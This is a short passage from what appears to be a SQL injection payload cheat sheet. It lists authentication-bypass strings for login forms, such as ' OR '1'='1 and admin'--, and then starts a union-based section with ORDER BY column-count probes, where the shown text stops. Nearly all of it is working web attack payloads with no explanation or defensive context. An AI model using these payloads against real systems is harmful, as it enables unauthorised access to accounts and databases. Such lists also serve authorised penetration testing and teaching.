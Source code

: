 #### Authentication Bypass (Login Forms)

```
' OR '1'='1
```

```
' OR 1=1--
```

```
' OR 1=1#
```

```
' OR 1=1/*
```

```
admin'--
```

```
admin'#
```

```
admin'/*
```

```
' OR 'a'='a
```

```
' || 1=1;-- -
```
#### Union-Based

```
' ORDER BY 1--
```

```
' ORDER BY 2--
```

```
' ORDER BY 3--
```
